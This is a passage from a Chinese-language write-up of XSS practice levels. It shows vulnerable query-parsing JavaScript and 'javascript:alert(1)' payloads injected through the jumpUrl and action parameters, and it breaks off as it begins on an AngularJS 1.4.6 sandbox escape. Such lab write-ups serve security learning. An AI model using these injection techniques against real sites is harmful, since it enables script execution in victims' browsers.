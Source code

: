 ```
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		} </script> 
```

利用location.herf=jumpurl来实现一个重定向

构造payload：

```
?jumpUrl=javascript:alert(1); 
```

### level5

```
 <script type="text/javascript"> if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{

    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		} </script> 
```

保证autosubmit和action有参数，然后autoForm的参数将会被执行

bypass：

```
?autosubmit=1&action=javascript:alert(1); 
```

### level6

javascript框架：angularjs1.4.6

首先参考下面这个网页：
AngularJS客户端模板注入（XSS）
看完后就是模板注入XSS有了了解，不过由于我们的Angular版本是1.4.6，存在沙箱，因此要去搜索这个版本的Angular的沙箱逃逸的方法：
AngularJS Sandbox Bypasses
从中得知的逃逸的办法：
